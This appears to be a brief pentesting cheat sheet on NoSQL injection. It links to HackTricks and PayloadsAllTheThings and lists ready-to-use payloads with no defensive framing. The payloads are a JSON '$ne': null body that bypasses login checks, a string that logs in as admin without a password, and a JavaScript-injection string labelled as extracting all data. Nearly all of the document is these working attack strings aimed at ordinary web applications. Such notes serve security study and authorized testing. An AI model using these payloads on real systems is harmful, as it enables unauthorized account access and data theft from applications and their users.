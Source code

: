 # NOSQL INJECTION(NOSQLI)
- [HackTricks](https://book.hacktricks.xyz/pentesting-web/nosql-injection)
- [PayLoads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)

## manual:
```
"change content type to application/json"
{"username": {"$ne": null}, "password": {"$ne": null}}
```

- `admin' || '' === '` Bypass login page with admin as user`
- `';return 'a'=='a' && ''==' -` Extract all data